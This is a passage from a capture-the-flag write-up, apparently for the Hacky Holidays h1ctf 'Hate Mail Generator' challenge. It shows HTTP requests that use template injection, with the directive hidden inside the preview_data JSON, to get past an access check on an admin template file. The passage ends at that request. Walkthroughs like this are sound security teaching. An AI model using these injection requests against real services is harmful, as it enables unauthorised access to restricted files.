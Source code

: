 > Whether Bob or Alice, the Grinch hates them both
> "Stinking, rotten, abominable!" he quoth
> Seething with ire, the Grinch routes his mail
> while hackers inject templates to prevail!

The Grinch loves sending the worst mail huh? (*Jury duty, jury duty, jury duty, blackmail, pink slip, chain letter, eviction notice*). Much like the Grinch loves injecting hate mail into our inboxes, we too must inject templates to... save Christmas!

The one sample piece of hate mail we have to work with shows us the format and the syntax `{{template:file.html}}`:

{F1132768}

It looks like files can be included as templates. In order to find the file location, I ran dirsearch.py to find hidden directories. This revealed the `templates` folder and an admin template file! Let's come back to that later, since direct navigation returns a 403 Forbidden error. 

{F1132758}

When writing a new campaign you can either "Create" or "Preview" it. 

{F1132769}

We can't create a campaign because we're "out of credits" but we *can* submit a preview. Here's what that request looks like:

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
...

preview_markup=Hello+{{name}}+....&preview_data={"name":"Alice","email":"alice@test.com"}
```

The preview syntax appears to be slightly different from the sample campaign. Let's try a few things and see if we can access `38dhs_admins_only_header.html`

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
...

preview_markup=Hello+{{name}}{{template:38dhs_admins_only_header.html}}+....&preview_data={"name":"Alice","email":"alice@test.com"}
```

Response: `You do not have access to the file 38dhs_admins_only_header.html` dangit!

Taking another look at the `preview_data` parameter tells us that `Alice` replaces `{{name}}`. Let's try the same injection but abstracted by a step:

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
...

preview_markup=Hello+{{name}}+....&preview_data={"name":"Alice{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```
